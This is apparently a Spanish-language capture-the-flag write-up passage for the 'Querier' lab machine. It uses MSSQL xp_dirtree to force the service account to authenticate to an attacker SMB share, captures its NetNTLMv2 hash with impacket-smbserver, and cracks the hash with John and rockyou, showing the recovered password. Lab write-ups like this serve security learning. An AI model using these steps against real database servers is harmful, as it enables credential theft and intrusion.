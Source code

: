 Hacemos la peticion a nivel de Red para inteceptar el Hash
```bash
SQL> xp_dirtree "//10.10.16.3/caca"
subdirectory                                                                                                                                                                                                                                                            depth   

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   -----------   

SQL> 

```

Recurso Compartido de Nuestro Lado Attacante
```bash
# impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.24.dev1+20210827.162957.5aa97fa7 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.125,49675)
[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
[*] User QUERIER\mssql-svc authenticated successfully
[*] "mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:0642e72a441030d47a763c00c904aaeb:010100000000000080538e39e112d8019cd5667bcfcfd83e0000000001001000530068004a004e00760064006b00670003001000530068004a004e00760064006b00670002001000530056004f00740055004a0070007a0004001000530056004f00740055004a0070007a000700080080538e39e112d801060004000200000008003000300000000000000000000000003000003a2a8b8bb974a03e4d78308603f3c73b02c7f94cb7f3041d9dc5376f9f96f69d0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003300000000000000000000000000      "
[*] Connecting Share(1:IPC$)
[-] SMB2_TREE_CONNECT not found caca
[-] SMB2_TREE_CONNECT not found caca
[*] AUTHENTICATE_MESSAGE (\,QUERIER)
[*] User QUERIER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
``` 

Procedemos a copiarnos el Hash a un archivito
Procedemos a usar la herramienta `John`

```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt Hash_NetNtlmV2                            1 ⚙
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
"corporate568     (mssql-svc)"
1g 0:00:00:01 DONE (2022-01-26 19:22) 0.5780g/s 5180Kp/s 5180Kc/s 5180KC/s correemilio..coreyny
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
